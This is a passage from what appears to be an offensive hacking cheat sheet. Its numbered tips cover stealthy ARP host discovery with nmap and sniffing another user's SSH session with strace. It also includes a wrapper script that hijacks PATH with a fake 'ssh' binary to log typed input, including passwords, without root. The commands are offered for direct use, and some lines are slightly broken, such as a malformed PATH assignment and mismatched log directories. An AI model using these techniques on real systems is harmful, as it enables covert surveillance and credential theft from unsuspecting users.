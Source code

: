 **6. Hide your arguments**

Continuing from above..FIXME: can this be done witout LD_PRELOAD and just in Bash?

**7. ARP discover computers on the local network**
```
$ nmap -r -sn -PR 192.168.0.1/24
```
This will Arp-ping all local machines. ARP ping always seems to work and is very steahlthy (e.g. does not show up in the target's firewall). However, this command is by far our favourite:
```
$ nmap -thc
```

**8. Sniff a SSH session**
```
$ strace -p <PID of ssh> -e trace=read -o ~/.ssh/ssh_log.txt
$ grep 'read(4' ~/.ssh/ssh_log.txt | cut -f1 -d\"
```
Dirty way to monitor a user who is using ssh to connect to another host from a computer that you control.

**9. Sniff a SSH session without root priviledges**

Even dirtier way in case */proc/sys/kernel/yama/ptrace_scope* is set to 1 (strace will fail on already running SSH clients unless uid=0)

Create a wrapper script called 'ssh' that executes strace + ssh to log the session:
```
# Add ~/.ssh to the execution PATH variable so our 'ssh' is executed instead of the real ssh:
$ echo '$PATH=~/.local/bin:$PATH' >>~/.profile

# Create our log directory and our own ssh binary
$ mkdir ~/.ssh/.logs
$ mkdir -p ~/.local/bin ~/.ssh/logs

$ cat >~/.local/bin/ssh
#! /bin/bash
strace -e trace=read -o '! ~/.local/bin/ssh-log $$' /usr/bin/ssh $@
# now press CTRL-d to close the file.

$ cat ~/.local/bin/ssh-log
#! /bin/bash
grep 'read(4' | cut -f2 -d\" | while read -r x; do
        if [ ${#x} -ne 2 ] && [ ${#x} -ne 1 ]; then continue; fi
        if [ x"${x}" == "x\\n" ] || [ x"${x}" == "x\\r" ]; then
                echo ""
        else
                echo -n "${x}"
        fi
done >~/.ssh/.logs/ssh-log-"${1}"-`date +%s`.txt
# now press CTRL-d to close the file

$ chmod 755 ~/.local/bin/ssh ~/.local/bin/ssh-log
```
